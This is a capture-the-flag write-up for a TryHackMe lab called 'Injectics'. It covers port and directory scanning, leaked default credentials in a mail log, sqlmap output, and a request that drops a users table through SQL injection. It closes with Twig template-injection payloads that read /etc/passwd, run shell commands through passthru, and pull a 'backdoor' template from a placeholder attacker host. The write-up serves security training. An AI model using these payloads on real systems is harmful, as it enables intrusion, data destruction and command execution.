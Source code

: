 <code>
  
## injectics

https://tryhackme.com/r/room/injectics

### Enumeration

Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-01-16 06:01 EST
Nmap scan report for 10.10.136.219
Host is up (0.036s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 df:14:5e:7b:3c:5d:14:1e:a2:fb:8e:16:69:e8:1d:b7 (RSA)
|   256 d8:a2:ad:30:00:60:82:f1:a0:d9:8e:b8:50:93:65:7c (ECDSA)
|_  256 0f:50:9b:b7:2a:46:2c:d3:be:bb:dd:41:ee:d6:79:1b (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-title: Injectics Leaderboard
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.80 seconds


gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://10.10.136.219 -x php,txt,html                                            

[+] Url:                     http://10.10.136.219
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              php,txt,html
[+] Timeout:                 10s
/.html                (Status: 403) [Size: 278]
/index.php            (Status: 200) [Size: 6592]
/.php                 (Status: 403) [Size: 278]
/login.php            (Status: 200) [Size: 5401]
/flags                (Status: 301) [Size: 314] [--> http://10.10.136.219/flags/]
/css                  (Status: 301) [Size: 312] [--> http://10.10.136.219/css/]
/js                   (Status: 301) [Size: 311] [--> http://10.10.136.219/js/]
/javascript           (Status: 301) [Size: 319] [--> http://10.10.136.219/javascript/]
/logout.php           (Status: 302) [Size: 0] [--> index.php]
/vendor               (Status: 301) [Size: 315] [--> http://10.10.136.219/vendor/]
/dashboard.php        (Status: 302) [Size: 0] [--> dashboard.php]
/functions.php        (Status: 200) [Size: 0]
/phpmyadmin           (Status: 301) [Size: 319] [--> http://10.10.136.219/phpmyadmin/]
/.php                 (Status: 403) [Size: 278]
/.html                (Status: 403) [Size: 278]
/conn.php             (Status: 200) [Size: 0]
/server-status        (Status: 403) [Size: 278]



### in source code found notice about mail.log

http://10.10.136.219/mail.log

from: dev@injectics.thm
To: superadmin@injectics.thm
Subject: Update before holidays

Hey,

Before heading off on holidays, I wanted to update you on the latest changes to the website. I have implemented several enhancements and enabled a special service called Injectics. This service continuously monitors the database to ensure it remains in a stable state.

To add an extra layer of safety, I have configured the service to automatically insert default credentials into the `users` table if it is ever deleted or becomes corrupted. This ensures that we always have a way to access the system and perform necessary maintenance. I have scheduled the service to run every minute.

Here are the default credentials that will be added:

| Email                     | Password 	              |
|---------------------------|-------------------------|
| superadmin@injectics.thm  | superSecurePasswd101    |
| dev@injectics.thm         | devPasswd123            |

Please let me know if there are any further updates or changes needed.

Best regards,
Dev Team

dev@injectics.thm


┌──(kali㉿kali)-[~/Documents/THM/THM_Injectics]
└─$ sqlmap -r reg1.txt --level 5 --risk=3 --dump     
        ___
       __H__                                                                                                        
 ___ ___["]_____ ___ ___  {1.8.11#stable}                                                                           
|_ -| . [(]     | .'| . |                                                                                           
|___|_  [)]_|_|_|__,|  _|                                                                                           
      |_|V...       |_|   https://sqlmap.org                                                                        

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 09:15:11 /2025-01-16/

[09:15:11] [INFO] parsing HTTP request from 'reg1.txt'
[09:15:11] [INFO] resuming back-end DBMS 'mysql' 
[09:15:11] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: username (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 RLIKE time-based blind
    Payload: username=10.10.9.71' RLIKE SLEEP(5)-- hcXN&password=10.10.9.71&function=login
---
[09:15:11] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu 20.10 or 20.04 or 19.10 (eoan or focal)
web application technology: Apache 2.4.41
back-end DBMS: MySQL >= 5.0.12
[09:15:11] [WARNING] missing database parameter. sqlmap is going to use the current database to enumerate table(s) entries
[09:15:11] [INFO] fetching current database
[09:15:11] [WARNING] time-based comparison requires larger statistical model, please wait.............................. (done)
[09:15:13] [WARNING] it is very important to not stress the network connection during usage of time-based payloads to prevent potential disruptions 

[09:15:13] [WARNING] in case of continuous data retrieval problems you are advised to try a switch '--no-cast' or switch '--hex'
[09:15:13] [INFO] fetching database names
[09:15:13] [INFO] fetching number of databases
[09:15:13] [INFO] retrieved: 
[09:15:13] [ERROR] unable to retrieve the number of databases
[09:15:13] [INFO] falling back to current database
[09:15:13] [INFO] fetching current database
[09:15:13] [INFO] retrieved: 
[09:15:14] [CRITICAL] unable to retrieve the database names
[09:15:14] [INFO] fetched data logged to text files under '/home/kali/.local/share/sqlmap/output/10.10.9.71'


http://injectics.thm/composer.json
equire	
twig/twig	"2.14.0"

http://injectics.thm//phpmyadmin/doc/html/index.html
phpMyAdmin 4.9.5

To get access to the admin panel for the challenge question, I need to delete the ‘users’ table. So I want to find somewhere to inject:

**drop table users -- -**

So inject in dashboard

POST /edit_leaderboard.php HTTP/1.1
Host: injectics.thm
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: http://injectics.thm/edit_leaderboard.php
Content-Type: application/x-www-form-urlencoded
Content-Length: 208
Origin: http://injectics.thm
Connection: keep-alive
Cookie: PHPSESSID=04v8k348jddp0b0d76n46c16cu
Upgrade-Insecure-Requests: 1

rank=2&country=&gold=7; drop table users -- -&silver=0&bronze=7

Found that first name item in http://injectics.thm/update_profile.php is SSTI vulneable with twig/twig	"2.14.0"

{{7*'7'}}
{{dump(app)}}
{{app.request.server.all|join(',')}}
"{{'/etc/passwd'|file_excerpt(1,30)}}"@
{{_self.env.setCache("ftp://attacker.net:2121")}}{{_self.env.loadTemplate("backdoor")}}
{{['id',""]|sort('passthru')}}
{{['ls -la ./flags',""]|sort('passthru')}}

  
<\code>
